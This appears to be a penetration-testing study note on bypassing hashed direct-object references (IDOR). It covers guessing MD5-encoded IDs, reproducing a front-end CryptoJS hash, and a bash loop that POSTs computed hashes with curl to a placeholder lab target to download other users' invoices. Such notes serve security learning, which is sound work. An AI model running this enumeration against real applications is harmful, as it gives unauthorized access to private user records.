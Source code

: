 # Bypassing Encoded References
***
#### Nowadays, it is commonly seen encoded direct references , using MD5 or other encoding methods.
#### For example: `invoice=6d1e26ed85e7203cf992b7198c46cb6b`

#### In some cases whe can try to hash various values, such as `uid`, `username`, `fn`, and then check if we find any MD5 hash match.
```bash
$ echo -n 1337 | md5sum
```
#### Another way to perform the check above is to use the `Burp Comparer` to fuzz various values and compare each to our hash to see if there is any match.
#### Nonetheless, this is considered a `Secure Direct Object Reference` as it would be really hard to predict when there are a lot of values combined before hashing. However ,in some web applications it's still possible to abuse this feature.

### Function Disclosure
#### One of the most critical flaws that we can encounter on a website is when developers perform sensitive functions on the front-end, exposing them to the attackers. For instance, we could study the hash function , if the hash was being calculated  on the front-end, and then replicate its functionality to generate our hashes and then fuzz the parameters.

#### Example of a sensitive function that performs the hash using MD5 (collision prone)
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
#### The function above sends a **POST** request with the contract param, with its value being hashed (MD5) using the **CryptoJS** library. The method `btoa(uid)`, performs the **base64** encode of the uid input value before passing though the hash method.

#### Example of the function above through bash
```bash
$ echo -n 1337 | base64 -w 0 | md5sum
```

#### **NOTE:** The `-n` and the `-w 0` flags are being used to avoid adding newlines to properly calculate the **md5** hash.

### Mass Enumeration
#### To perform a mass enumeration we can write a simple bash script , or in some more specific cases we may utilize tools like **Burp Intruder** or **ZAP Fuzzer**.
#### First we need to calculate the hash for each id:
```bash
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

#### Finally, we make  a post request for each calculated hash to download the users' invoices
```
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://<IP>:<PORT>/download.php
    done
done
```
